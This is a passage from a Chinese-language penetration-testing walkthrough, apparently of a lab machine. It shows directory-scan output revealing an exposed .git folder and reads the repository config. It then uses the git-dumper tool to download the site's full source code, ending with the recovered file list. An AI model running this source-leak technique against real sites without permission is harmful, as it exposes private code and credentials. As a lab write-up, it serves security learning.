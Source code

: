     [18:11:13] 301 -  325B  - /.git/logs/refs  ->  http://192.168.75.185/.git/logs/refs/                     
    [18:11:13] 200 -   41B  - /.git/refs/heads/master                                                        
    [18:11:13] 301 -  326B  - /.git/refs/heads  ->  http://192.168.75.185/.git/refs/heads/                   
    [18:11:13] 301 -  325B  - /.git/refs/tags  ->  http://192.168.75.185/.git/refs/tags/                     
    [18:11:13] 200 -  465B  - /.git/refs/               
    [18:11:13] 200 -  510B  - /.idea/                                                                        
    [18:11:13] 301 -  316B  - /.idea  ->  http://192.168.75.185/.idea/                                       
    [18:11:14] 200 -  192B  - /.idea/modules.xml                                                             
    [18:11:14] 200 -  926B  - /.idea/workspace.xml                                                           
    [18:11:32] 301 -  317B  - /config  ->  http://192.168.75.185/config/                                     
    [18:11:33] 200 -  457B  - /config/                                                                       
    [18:11:34] 200 -   11B  - /dashboard.php                                                                 
    [18:11:43] 200 -  456B  - /js/                                                                           
    [18:11:45] 200 -  484B  - /login.php                                                                     
    [18:11:46] 302 -    0B  - /logout.php  ->  index.php                                                     
    [18:12:03] 301 -  316B  - /style  ->  http://192.168.75.185/style/
    ```
    
    - 清一色的`.git` 可以尝试有没有`.git`源码泄露
    - `config/` 应该是配置文件
3. 测试是否存在源码泄露
    
    > https://www.freebuf.com/articles/web/346607.html
    > 
    
    因为我们找到了`.git` ,所以我们要针对`git`
    
    - 访问`/.git/config` 存在该目录，存在源码泄露漏洞
        
        ```python
        [core]
        	repositoryformatversion = 0
        	filemode = false
        	bare = false
        	logallrefupdates = true
        	symlinks = false
        	ignorecase = true
        ```
        
    - 使用工具 **`git-dumper`**
        
        > https://github.com/arthaud/git-dumper
        > 
        
        使用`pip install git-dumper` 安装
        
        ```python
        git-dumper http://192.168.75.185/.git/ ./185
        ```
        
        将所有源码文件下载下来了，下载到当前目录的`185`文件夹里
        
        ```python
        ls -al ./185
        //
        drwxr-xr-x 7 root root 4096 11月 9日 01:25 .
        drwxr-xr-x 4 root root 4096 11月 9日 01:41 ..
        drwxr-xr-x 2 root root 4096 11月 9日 01:25 config
        -rw-r--r-- 1 root root 5578 11月 9日 01:25 dashboard.php
        drwxr-xr-x 7 root root 4096 11月 9日 01:25 .git
        drwxr-xr-x 2 root root 4096 11月 9日 01:25 .idea
        -rw-r--r-- 1 root root 1094 11月 9日 01:25 index.php
        drwxr-xr-x 2 root root 4096 11月 9日 01:25 js
        -rw-r--r-- 1 root root 1493 11月 9日 01:25 login.php
        -rw-r--r-- 1 root root  179 11月 9日 01:25 logout.php
        drwxr-xr-x 2 root root 4096 11月 9日 01:25 style
        ```
        